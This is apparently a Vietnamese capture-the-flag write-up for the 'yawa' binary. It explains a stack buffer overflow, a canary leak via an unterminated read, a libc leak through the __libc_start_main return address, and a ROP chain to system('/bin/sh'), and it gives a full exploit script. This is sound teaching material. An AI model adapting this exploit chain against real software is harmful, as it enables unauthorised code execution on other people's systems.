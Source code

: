## General
```sh
$ checksec yawa
[*] '/home/alter/pwn/Practice/yawa/yawa'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
alter ^ Sol in ~/pwn/Practice/yawa [fg: 1]
$ file yawa
yawa: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7f7b72aaab967245353b6816808804a6c4ad2168, not stripped
```
Chúng ta có thể thấy `binary` này có full bảo vệ. Vì thế đây có thể là một challenge khó khăn :v

## Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int menu() {
    int choice;
    puts("1. Tell me your name");
    puts("2. Get a personalised greeting");
    printf("> ");
    scanf("%d", &choice);
    return choice;
}

int main() {
    init();

    char name[88];
    int choice;

    while(1) {
        choice = menu();
        if(choice == 1) {
            read(0, name, 0x88);
        } else if(choice == 2) {
            printf("Hello, %s\n", name);
        } else {
            break;
        }
    }
}
```

Source code khá đơn giản, chỉ là nhập `choice` và chuyển sang các chức năng. Đặc biệt chú ý khi ta nhập `choice == 1` ta có thể thấy ở đây xảy ra lỗi `buffer overflow` vì hàm `read` có thể đọc đến `0x88` bytes trong khi biến `name` chỉ chứa được `88` bytes.

## Exploit

Dùng gdb ta có thể tìm được offset giữa input và `saved rip` là `0x68` bytes. Nhưng binary này có `Stack Canary`, nó sẽ thoát chương trình vô điều kiện nếu giá trị của nó bị thay đổi, vì thế ta cần leak giá trị này ra để kèm nó vào `payload` trước `saved rbp`. Ta có thể để ý hàm `read()` đọc kí tự mà không thêm NULL byte vào cuối chuỗi, điều này sẽ làm chiều ta nhập vào nối với chuỗi khác, từ đó ta có thể tận dụng điều này để leak được `canary`:

```py
# [1] Leak canary
buf2cnry = b'A' * 0x59

sla(b'> ', b'1')
s(buf2cnry)
sla(b'> ', b'2')
ru(buf2cnry)
cnry = u64(b'\x00' + rnb(7))
slog('Canary', cnry)
```

Sau khi có được `canary` rồi ta có thể tiếp tục đến việc leak `libc` nhưng vì binary này `Full RELRO` nên việc leak libc bằng GOT hay PLT là điều khá khó khăn hoặc dường như là không thể. Nên ta có thể nghĩ đến việc dùng kĩ thuật `__libc_start_main return`. Thì nói ngắn gọn thì `__libc_start_main` sẽ khởi tạo tiến trình, gọi hàm `main` với các đối số thích hợp và xử lý giá trị trả về từ hàm `main`. Nếu ta để ý thấy, thì mỗi lần ta chạy chương trình và chương trình return một cách bình thường, không có sự can thiệp của chúng ta thông qua `overflow` hay những thứ khác thì nó sẽ return về `__libc_start_main+offset` với mục đích là để thoát chưa trình. Thì vì lý do `__libc_start_main` thuộc `libc` nên khi ta leak được libc, ta có thể dễ dàng tính được địa chỉ base của nó:

```py
# [2] Leak libc

pl1 = b'B' * 0x58 + b'C' * 0x8 + b'D' * 0x8
sla(b'> ', b'1')
s(pl1)
sla(b'> ', b'2')
ru(pl1)
libc_start_main = u64(rnb(6) + b'\x00\x00')
libc.address = libc_start_main - 0x1d90 - 0x28000
slog('libc_start_main', libc_start_main)
slog('libc base',libc.address)
slog('system', libc.sym.system)
slog('/bin/sh',next(libc.search(b'/bin/sh')))
```

```py
libc.address = libc_start_main - 0x1d90 - 0x28000
```

Ở chỗ này ta có thể check bằng cách sử dụng `vmmap <leaked_address>` rồi xem `offset` của nó là bao nhiêu từ đó ta trừ ra

```sh
pwndbg> vmmap 0x7ffff7dbbd90
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x7ffff7d92000     0x7ffff7dba000 r--p    28000      0 /home/alter/pwn/Practice/yawa/libc.so.6
►   0x7ffff7dba000     0x7ffff7f4f000 r-xp   195000  28000 /home/alter/pwn/Practice/yawa/libc.so.6 +0x1d90
    0x7ffff7f4f000     0x7ffff7fa7000 r--p    58000 1bd000 /home/alter/pwn/Practice/yawa/libc.so.6
```

Lý do mà ta sử dụng được technique này một phần là do khi return về thì hàm main chỉ return về một địa chỉ nhất định, nên từ đó offset mà ta tính ra nó không thay đổi vì thế sẽ giúp ta tính `libc base` không bị sai

Và sau khi có những thứ mình cần hết rồi thì ta có thể get shell bằng hàm `system` nhưng điều đáng chú ý ở đây là ở binary không cho ta dùng `pop rdi; ret` một cách thoải mái (tại vì nó không có). Nên ta có thể sử dụng các `gadget` có trong libc. Một lưu ý nữa rằng `PIE` đang bật nên các address hiện ra chỉ là offset của nó đến `base address`. Vì đây là gadget trong `libc` nên sẽ dễ hiểu đó là offset được tính từ `libc base` mà chúng ta đã leak:

```py
# [3] Get shell

pop_rdi = 0x000000000002a3e5
ret = 0x0000000000029139

pl2 = b'A' * 0x58 + p64(cnry) + b'B' * 0x8
pl2 += p64(ret + libc.address)
pl2 += p64(pop_rdi + libc.address) + p64(next(libc.search(b'/bin/sh')))
pl2 += p64(libc.sym.system)
sla(b'> ',b'1')
s(pl2)
sla(b'> ',b'3')
```

## Full exploit

```py
#!/usr/bin/python3
from pwncus import *

# context.log_level = 'debug'
exe = context.binary = ELF('./yawa_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''


b*main+142
c
''') if not args.REMOTE else None

p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

# [1] Leak canary
buf2cnry = b'A' * 0x59

sla(b'> ', b'1')
s(buf2cnry)
sla(b'> ', b'2')
ru(buf2cnry)
cnry = u64(b'\x00' + rnb(7))
slog('Canary', cnry)

# [2] Leak libc

pl1 = b'B' * 0x58 + b'C' * 0x8 + b'D' * 0x8
sla(b'> ', b'1')
s(pl1)
sla(b'> ', b'2')
ru(pl1)
libc_start_main = u64(rnb(6) + b'\x00\x00')
libc.address = libc_start_main - 0x1d90 - 0x28000
slog('libc_start_main', libc_start_main)
slog('libc base',libc.address)
slog('system', libc.sym.system)
slog('/bin/sh',next(libc.search(b'/bin/sh')))

# [3] Get shell

pop_rdi = 0x000000000002a3e5
ret = 0x0000000000029139

pl2 = b'A' * 0x58 + p64(cnry) + b'B' * 0x8
pl2 += p64(ret + libc.address)
pl2 += p64(pop_rdi + libc.address) + p64(next(libc.search(b'/bin/sh')))
pl2 += p64(libc.sym.system)
sla(b'> ',b'1')
s(pl2)
sla(b'> ',b'3')

interactive()
```
